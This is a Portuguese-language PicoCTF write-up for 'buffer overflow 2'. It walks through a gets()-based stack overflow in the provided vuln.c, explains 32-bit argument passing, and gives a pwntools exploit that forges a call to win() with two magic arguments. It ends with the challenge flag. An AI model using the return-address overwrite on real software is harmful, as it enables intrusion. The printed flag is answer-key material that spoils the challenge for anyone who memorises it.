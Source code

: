 # WriteUp: buffer overflow 2
## Descrição do Desafio:
**Author**: Sanjay C / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/259?category=6&page=2) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2022 \
**Descrição**:
> Control the return address and arguments
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Assim como os anteriores, este fornece o arquivo fonte, `vuln.c`. A análise dele é basicamente a mesma do `buffer overflow 1`, com vulnerabilidade de `buffer overflow` na função `vuln()`. A diferença é que a função `win()` necessita de dois parâmetros.
```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
### 2. Exploit
O objetivo é o mesmo do anterior, temos que controlar o retorno da função `vuln()` para ela retornar para a função `win()`, mas também temos que passar dois parâmetros, o primeiro com valor de `0xCAFEF00D` e o segundo com valor de `0xF00DF00D`.

Aqui é necessário entender um pouco sobre como a pilha fica quando chamamos uma função. No desafio anterior eu disse que o endereço de retorno é colocado no topo da pilha, guarde isso, mas agora temos que saber como os parâmetros são passados.

Bom, isso depende da arquitetura, se for 32-bits (nosso caso) os parâmetros são passados pela pilha, em ordem decrescente, de forma que a pilha tem que ficar mais ou menos assim:
```
+-----Stack-----+
|   End. Ret    |
|    Param 1    |
|    Param 2    |
|      ...      |
+---------------+
```
E se for 64-bits, os parâmetros são passados por meio dos registradores, sendo necessário fazer `ROP` para conseguir passar parâmetros.
### 3. Solução
Novamente, o primeiro passo é identificar quantos bytes serão escritos até chegar no endereço de retorno. Após isso, sobrescrevemos o endereço de retorno para ser o endereço da função `win()`, e por fim temos que forjar uma pilha para a função `win()`, ou seja, temos que colocar no topo um endereço para ela retornar (lixo para nós), o parâmetro 1, e por fim o 2.

### 3.1 Solução com Python
```py
from pwn import *

elf = context.binary = ELF("./vuln")
p = remote(ip, porta) #Troque pelos valores fornecidos

payload = flat(
    "A" * 112,        #Lixo - padding
    elf.sym["win"],   #Endereço de retorno da Vuln
    #Forjando pilha da Win
    0x0,              #Endereço de retorno da Win (topo)
    0xCAFEF00D,       #Parâmetro 1
    0xF00DF00D        #Parâmetro 2
)

p.sendlineafter(b"string: ", payload)
p.recvlinesS(2)
print(p.recvall())
```

### Flag
`picoCTF{argum3nt5_4_d4yZ_3c04eab0}`

## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
